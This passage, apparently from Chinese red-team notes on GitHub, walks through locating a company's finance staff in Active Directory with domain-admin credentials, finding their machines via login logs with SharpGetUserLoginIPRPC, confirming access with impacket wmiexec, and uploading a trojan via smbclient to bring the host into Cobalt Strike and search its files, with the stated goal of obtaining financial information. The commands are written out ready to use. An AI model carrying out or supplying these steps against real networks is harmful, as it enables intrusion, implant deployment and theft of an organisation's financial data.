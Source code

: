 如果在列出的进程中看到了用户名为管理员用户名的话，便是找到了域管理员进程。

<div align=center><img width="1378" alt="image" src="https://user-images.githubusercontent.com/84888757/234303764-8b812662-4ca0-4459-934a-6c7dbf236d56.png" /></div>

# 0x07 定位指定域用户登录过的机器
- 前提条件：
  - 拿到域管账号密码
  - 可获取域控权限
    - 在某次实战过程中，可获取域控权限，由于存在深信服edr，无法登录3389 

- 目标：获得财务信息
  - 思路：定位财务部人员域内电脑，尝试通过PC获取财务部信息。

## 7.1 ADExplorer 获取财务部门人员信息
- 下载链接：https://learn.microsoft.com/en-us/sysinternals/downloads/adexplorer
- 直接用 ADExplorer ，通过域管账号密码连接就能看活动目录OU信息，从而查看财务部有哪些人，不需要3389登陆上去域控。

<div align=center><img width="1148" alt="image" src="https://github.com/user-attachments/assets/66f1dfb6-dcdd-453d-b005-6b0434d12e72" /></div>

找到财务人员的域用户名：

<div align=center><img width="1051" alt="image" src="https://github.com/user-attachments/assets/b55cb24d-0d48-4469-93cf-eda3b29239ac" /></div>

## 7.2 通过域日志定位财务部门人员所使用的电脑
- 工具
  - https://github.com/mabangde/SharpGetUserLoginIPRPC
    - 需要自行编译

通过域日志找到该用户所在的 ip：
```cmd
.\编译好的SharpGetUserLoginIPRPC.exe 域名\域管用户名:域管密码@域控ip -qu 要定位机器的域用户名
```
找到域用户 `aaa` 登录过的机器ip为 `192.168.x.x` :

<div align=center><img width="947" alt="image" src="https://github.com/user-attachments/assets/df831d0b-4218-4efc-b899-4b90b5da6005" /></div>

通过 `wmiexec` 查看确实是域用户 `aaa` 登录过的机器：

(让输出的中文不乱码 -codec 936 ，意思是GBK编码。)

```
python3 wmiexec.py "域名/域管账号名:域管密码@要定位的机器ip" "要执行的命令" -codec 936

python3 wmiexec.py "域名/域管账号名:域管密码@要定位的机器ip" "cmd.exe /c query user" -codec 936
```

<div align=center><img width="1366" alt="image" src="https://github.com/user-attachments/assets/e292117b-b36a-4353-999c-46b8fa6dc35f" /></div>

定位到财务机器后，可上线CS翻文件了，可以通过 `smbclient` 上传木马文件。

- `smbclient.py` 下载地址：https://github.com/fortra/impacket/blob/master/examples

```cmd
python3 smbclient.py 域名/域管账号名:域管密码@要定位的机器ip

进入后：
use c$
put 本地文件路径 目标文件路径 

或者
use c$
cd xxx/xxx
put xx.exe


```